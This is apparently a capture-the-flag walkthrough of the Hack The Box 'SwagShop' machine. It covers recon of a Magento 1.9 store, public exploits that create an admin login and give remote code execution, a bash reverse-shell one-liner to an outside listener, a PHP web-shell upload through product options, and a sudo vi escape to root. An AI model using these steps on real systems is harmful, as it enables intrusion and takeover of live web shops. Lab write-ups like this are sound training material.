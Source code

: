 # Swagshop

## Machine Info

![SwagShop](./Swagshop.assets/SwagShop.png)

## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), Linux 5.0 - 5.5 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- path recon

```sh
$ gobuster dir -u http://swagshop.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://swagshop.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/media                (Status: 301) [Size: 312] [--> http://swagshop.htb/media/]
/includes             (Status: 301) [Size: 315] [--> http://swagshop.htb/includes/]
/empty                (Status: 200) [Size: 0]
/lib                  (Status: 301) [Size: 310] [--> http://swagshop.htb/lib/]
/app                  (Status: 301) [Size: 310] [--> http://swagshop.htb/app/]
/js                   (Status: 301) [Size: 309] [--> http://swagshop.htb/js/]
/shell                (Status: 301) [Size: 312] [--> http://swagshop.htb/shell/]
/skin                 (Status: 301) [Size: 311] [--> http://swagshop.htb/skin/]
/var                  (Status: 301) [Size: 310] [--> http://swagshop.htb/var/]
/errors               (Status: 301) [Size: 313] [--> http://swagshop.htb/errors/]
/mage                 (Status: 200) [Size: 1319]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

- web recon

```sh
$ whatweb http://swagshop.htb
http://swagshop.htb [200 OK] Apache[2.4.29], Cookies[frontend], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[frontend], IP[10.10.10.140], JQuery[1.10.2], Magento, Modernizr, Prototype, Script[text/javascript], Scriptaculous, Title[Home page], X-Frame-Options[SAMEORIGIN]
```

- html source code recon

```html
<address class="copyright">&copy; 2014 Magento Demo Store. All Rights Reserved.</address>
```

- finding: **Magento 2014** -> searchsploit

![image-20231227230945169](./Swagshop.assets/image-20231227230945169.png)

## Foothold

### 37977 RCE

- **EXP process**

```sh
$ python2 poc.py
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```

- cred: `forme:forme`

![image-20231227231110277](./Swagshop.assets/image-20231227231110277.png)

### 37811 RCE

- **Magento ver. 1.9.0.0**
- [Post Auth Magento RCE for reverse shell (HTB Evironment SwagShop) (github.com)](https://gist.github.com/zhsh9/6ae916c6467f23cf9cc880eabfcc3e2c)
  - config the username & password
  - config the install_date in `http://swagshop.htb/app/etc/local.xml` -> Wed, 08 May 2019 07:23:09 +0000
- `python2 37811.py http://swagshop.htb/index.php/admin/ "bash -c 'bash -i >& /dev/tcp/10.10.14.39/1234 0>&1'"`

![image-20231227231252057](./Swagshop.assets/image-20231227231252057.png)

### File Upload

- Click into **Manage Products**

![image-20231227231423724](./Swagshop.assets/image-20231227231423724.png)

- Choose a product and add a new option (file upload)

![image-20231227231454344](./Swagshop.assets/image-20231227231454344.png)

![image-20231227231457820](./Swagshop.assets/image-20231227231457820.png)

- Upload a php reverse shell file when add a product into CART

![image-20231227231527691](./Swagshop.assets/image-20231227231527691.png)

![image-20231227231534765](./Swagshop.assets/image-20231227231534765.png)

- Based on path recon, visit `http://swagshop.htb/media/custom_options/quote/r/s/` and see

![image-20231227231604334](./Swagshop.assets/image-20231227231604334.png)

- click after nc -lvnp 1234 on local host, `http://swagshop.htb/media/custom_options/quote/r/s/5647c47908b0c805af6f92e5e1d3f92b.php`

![image-20231227231620997](./Swagshop.assets/image-20231227231620997.png)

## Privilege Escalation

- sudo -l -> vi usage

```sh
www-data@swagshop:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

```console
touch empty    
sudo /usr/bin/vi /var/www/html/empty
```

![image-20231227231659940](./Swagshop.assets/image-20231227231659940.png)

## Exploit Chain

web+path recon -> RCE from admin page -> cred -> authenticated RCE -> www-data shell -> sudo -l -> vi -> :!/bin/bash -> root shell

